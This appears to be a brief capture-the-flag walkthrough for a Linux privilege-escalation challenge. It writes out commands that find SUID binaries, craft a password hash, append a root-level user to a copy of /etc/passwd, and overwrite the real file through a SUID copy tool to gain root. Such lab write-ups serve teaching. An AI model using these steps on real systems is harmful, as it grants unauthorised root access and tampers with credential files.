 ## find suid binaries
find / -type f -perm -4000 2>/dev/null
<br>
For this escalation we will be using simplecopy found in this output

## create password for new user
I had to do this in my local terminal because the environment didn't have openssl command <br>
openssl passwd 123 <br>
<br>
### output will look like this
$1$b219Pkwi$8iaVgOWneAN5sCgpWwGOT1

## copy passwd file to local directory
cp /etc/passwd .
<br>

## add new user to the passwd file
echo 'user3:$1$b219Pkwi$8iaVgOWneAN5sCgpWwGOT1:0:0:root:/bin/bash' >> passwd 
<br>

## use simplecopy to fin
simplecopy passwd /etc/passwd

su user3
<br>
cd /root
## Answer the binary question
./runmetoanswer santa
